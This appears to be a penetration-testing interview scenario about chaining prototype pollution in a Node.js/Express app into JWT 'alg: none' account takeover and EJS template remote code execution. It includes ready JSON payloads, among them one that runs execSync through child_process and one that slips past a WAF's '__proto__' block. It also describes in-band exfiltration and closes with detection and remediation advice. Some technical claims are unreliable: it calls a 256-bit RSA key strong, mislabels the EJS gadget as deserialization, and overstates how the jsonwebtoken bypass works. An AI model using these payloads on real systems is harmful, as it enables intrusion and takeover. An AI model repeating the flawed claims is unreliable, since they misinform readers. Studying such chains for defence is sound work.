

# Web Ultra 01 - The 0-Click ATO Chain via Deserialization and Prototype Pollution

## 1. Scenario Briefing

**Context:** 
You are performing a grey-box penetration test against a high-value financial technology application. The application is a Single Page Application (SPA) built with React, communicating with a Node.js (Express) backend. Authentication is handled via JSON Web Tokens (JWT) stored in HttpOnly cookies.
The target is a feature that processes user-submitted configuration profiles (JSON format) to customize the dashboard UI. The backend merges this configuration with a default server-side configuration using a custom recursive merge function.

**The Goal:** 
Achieve a 0-click Account Takeover (ATO) of an admin user, and escalate this to Remote Code Execution (RCE) on the Node.js backend.

**The Catch:** 
There is no direct XSS, and the JWTs are signed with a strong, 256-bit randomly generated RSA keypair. No typical low-hanging fruit exists.

---

## 2. Architecture & Attack Surface



*   **API Endpoint:** `POST /api/profile`
*   **Content-Type:** `application/json`
*   **Vulnerability 1:** Prototype Pollution in `deepMerge`.
*   **Vulnerability 2:** Gadget in JWT Verification / Session management leading to ATO.
*   **Vulnerability 3:** Gadget in the EJS template engine leading to Deserialization/RCE.

---

## 3. Attack Path & Exploitation Physics

### Phase 1: Identifying Prototype Pollution
The API accepts a JSON payload to set user preferences. 
```json
{
  "theme": "dark",
  "layout": {
    "sidebar": "collapsed"
  }
}
```
The backend processes this using a vulnerable recursive merge:
```javascript
function deepMerge(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) target[key] = {};
            deepMerge(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
    return target;
}
```

**The Physics:**
In JavaScript, all objects inherit from `Object.prototype`. The `__proto__` property is an accessor property that exposes the internal `[[Prototype]]` of an object. If an attacker can control the keys in a recursive merge function, they can overwrite properties on `Object.prototype`, affecting all objects in the Node.js application.

### Phase 2: The 0-Click ATO (JWT Bypass)
The application uses the `jsonwebtoken` library. When verifying tokens, it checks options like `ignoreExpiration` or `algorithms`.
If an attacker pollutes `Object.prototype.algorithms` or `Object.prototype.ignoreExpiration`, they can alter the cryptographic behavior of the JWT verifier application-wide.

**Payload:**
```json
{
  "theme": "dark",
  "__proto__": {
    "algorithms": ["none"]
  }
}
```
By polluting `algorithms` to strictly allow `"none"`, the attacker can forge a JWT with the `alg: none` header. When the victim (admin) API requests are processed, the `jsonwebtoken.verify` method inherits the `algorithms: ["none"]` array from the Object prototype. The backend accepts the forged signature-less token, resulting in a 0-click ATO (as the backend trusts the injected token context).

### Phase 3: Escalation to RCE (Deserialization Gadget)
The application generates PDF reports using the EJS template engine. EJS is known to have Prototype Pollution to RCE gadgets. Specifically, it compiles templates into functions and accepts an `opts` object.
If we pollute `opts.outputFunctionName`, EJS will blindly append our payload into the generated JavaScript function before execution.

**Payload for RCE:**
```json
{
  "theme": "dark",
  "__proto__": {
    "client": true,
    "escapeFunction": "1; return global.process.mainModule.constructor._load('child_process').execSync('id').toString();",
    "compileDebug": true
  }
}
```

---

## 4. The Interviewer's Gauntlet (Q&A)

### Q1: "Explain exactly how the JavaScript engine handles the `__proto__` property during a JSON parse compared to a direct object assignment."
**Expert Answer:**
"When you use `JSON.parse('{"__proto__": {"a": 1}}')`, the resulting object has an actual string key called `"__proto__"`. It does *not* set the object's prototype during the parse. However, when a vulnerable recursive merge function iterates over this parsed object using a `for...in` loop, it reads the string key `"__proto__"`. It then accesses `target["__proto__"]`. Because `target` is a standard JS object, accessing `target["__proto__"]` invokes the prototype getter, returning `Object.prototype`. The merge function then traverses *into* `Object.prototype` and writes the subsequent keys (like `a: 1`) directly onto the global prototype. If you used direct assignment like `obj.__proto__ = {a: 1}`, you are merely replacing `obj`'s prototype, not modifying the global `Object.prototype`."

### Q2: "How would you detect this blindly if you didn't have the source code?"
**Expert Answer:**
"Blind Prototype Pollution detection relies on observing application-wide state changes or triggering error-based differentials. 
1. **Status Code differential:** I would inject `{"__proto__": {"status": 500}}`. If the Express application uses `res.status(err.status)` in its error handler without default initialization, a previously 200/400 response might become a 500.
2. **JSON spacing:** Injecting `{"__proto__": {"spaces": 4}}`. If the app calls `res.json(obj)` internally it uses `JSON.stringify(obj, null, app.get('json spaces'))`. Polluting the `spaces` variable can cause the JSON response to be pretty-printed.
3. **CORS Headers:** Injecting `{"__proto__": {"origin": "*"}}` might alter reflected CORS headers if the CORS middleware uses uninitialized config objects."

### Q3: "The WAF is blocking the string `__proto__`. How do you bypass this to still achieve Prototype Pollution?"
**Expert Answer:**
"I would use the `constructor` payload. Every object has a `constructor` property pointing to `Object`, and the `Object` constructor has a `prototype` property pointing to `Object.prototype`. 
The bypass payload looks like this:
```json
{
  "constructor": {
    "prototype": {
      "pollutedKey": "pollutedValue"
    }
  }
}
```
If the merge function doesn't explicitly filter `constructor` and `prototype`, traversing `target["constructor"]["prototype"]` lands us exactly on the global `Object.prototype`, bypassing `__proto__` WAF rules entirely."

### Q4: "Explain the `alg: none` JWT bypass in the context of Prototype Pollution."
**Expert Answer:**
"The `jsonwebtoken` library's `verify` function accepts an `options` object. If `options.algorithms` is not explicitly set by the developer, the library checks `options.algorithms`. Normally, this is undefined. However, through Prototype Pollution, we pollute `Object.prototype.algorithms = ['none']`. When `verify()` checks `options.algorithms`, it traverses the prototype chain and finds `['none']`.
We then craft a JWT header `{"alg": "none", "typ": "JWT"}` and an empty signature. The library compares the token's algorithm (`none`) against the allowed algorithms list (`['none']`). Since it matches, the library accepts the unsigned token, allowing us to forge any `sub` or `role` claim we want."

### Q5: "Walk me through the EJS RCE gadget. Why does `outputFunctionName` or `escapeFunction` lead to RCE?"
**Expert Answer:**
"EJS compiles templates into raw JavaScript functions using `new Function()`. During compilation, it concatenates strings to build the function body. 
If we pollute `escapeFunction` (or `client` and `outputFunctionName` depending on the exact EJS version), the EJS compiler blindly interpolates this value into the generated JS code without sanitization. 
For example, EJS might construct code like:
`var __append = escapeFn + '(someVar);'`
If `escapeFn` is polluted with `1; return process.mainModule.require('child_process').execSync('id');`, the compiled function becomes:
`var __append = 1; return process.mainModule.require('child_process').execSync('id'); + '(someVar);'`
When the template is rendered, the compiled function is executed, triggering our injected Node.js code and yielding RCE."

### Q6: "How do you exfiltrate the results of the RCE if the server is fully blind and outbound HTTP/DNS is blocked via egress filtering?"
**Expert Answer:**
"If egress traffic is completely blocked, we must use in-band exfiltration. Since we have RCE, we can modify the Express route handlers dynamically in memory to return our command output.
Node.js stores active route definitions in the `app._router.stack`. Using our RCE payload, we can iterate over the router stack, find the handler for a public endpoint (like `GET /api/health`), and overwrite its `handle` function to execute our commands and return the output directly in the HTTP response.
Alternatively, we can write the output of our commands into a static asset directory (e.g., `public/images/output.jpg`) that the web server is configured to serve, and then simply request that file."

---

## 5. Defensive Telemetry & Incident Response

### Identifying the Attack in Logs
*   **WAF Logs:** Look for massive JSON payloads containing nested `__proto__` or `constructor.prototype` strings.
*   **Application APM:** High CPU spikes or anomalous `child_process` spawns (e.g., `sh`, `bash`, `cmd.exe`) originating from the Node process.
*   **JWT Anomalies:** Tokens authenticated with `alg: none` where usually RSA or HMAC is enforced. WAFs should easily catch `eyJhbGciOiJub25lIn0...`

### Remediation Strategies
1.  **Use Safe Object Creation:** Instead of `{}` or `new Object()`, use `Object.create(null)`. Objects created this way do not have a prototype chain, rendering them immune to Prototype Pollution.
2.  **Schema Validation:** Enforce strict JSON schemas using Ajv or Joi. Reject payloads with unexpected keys like `__proto__` or `constructor`.
3.  **Map Objects:** Use the native ES6 `Map` object for key-value stores instead of plain JavaScript objects.
4.  **Freeze the Prototype:** Call `Object.freeze(Object.prototype)` early in the application's lifecycle. This prevents any modifications to the global prototype, effectively stopping PP dead in its tracks. However, this may break older libraries that intentionally polyfill the prototype.

### Detection Engineering (Suricata Rule)
```suricata
alert http $EXTERNAL_NET any -> $HTTP_SERVERS any (msg:"ET EXPLOIT Possible Prototype Pollution in JSON (__proto__)"; flow:established,to_server; content:"__proto__"; http_client_body; content:"|3a|"; within:5; http_client_body; pcre:"/\"__proto__\"\s*:\s*\{/P"; classtype:web-application-attack; sid:1000001; rev:1;)
```
*(This signature flags JSON payloads containing the `__proto__` key followed by an object declaration).*

---
## 6. Conclusion
This scenario tests the candidate's deep understanding of engine-level JavaScript mechanics, memory/state manipulation across application scopes, and the ability to chain seemingly distinct vulnerabilities (PP -> JWT -> Deserialization) into a singular catastrophic kill chain. The difference between a senior and an expert is understanding *why* `Object.prototype` behavior impacts seemingly unrelated cryptography libraries.
